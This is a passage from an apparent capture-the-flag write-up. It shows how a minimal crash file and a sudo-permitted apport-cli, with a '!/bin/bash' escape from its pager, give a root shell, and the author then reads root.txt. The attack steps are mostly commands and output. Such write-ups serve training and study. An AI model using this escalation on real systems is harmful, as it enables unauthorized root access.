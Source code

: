 Interesting, although it isn't an exact match on the version it is still worth a shot. However currently there isn't a crash file present at `/var/crash/` to use based off of the PoC in the link.

After checking what a valid crash report file looks like (format wise) from [here](https://wiki.ubuntu.com/Apport?action=AttachFile&do=get&target=data-format.pdf)

We can make a `example.crash` file as follows:
```
ProblemType: Crash
Architecture: amd64
```

Now testing the exploit:
```bash
sudo /usr/bin/apport-cli -c ./example.crash
..
..
..

Please choose (S/V/K/I/C): V
!/bin/bash
```
Nice, now we have root!
```bash
whoami
root

cd ~/root
cat root.txt
```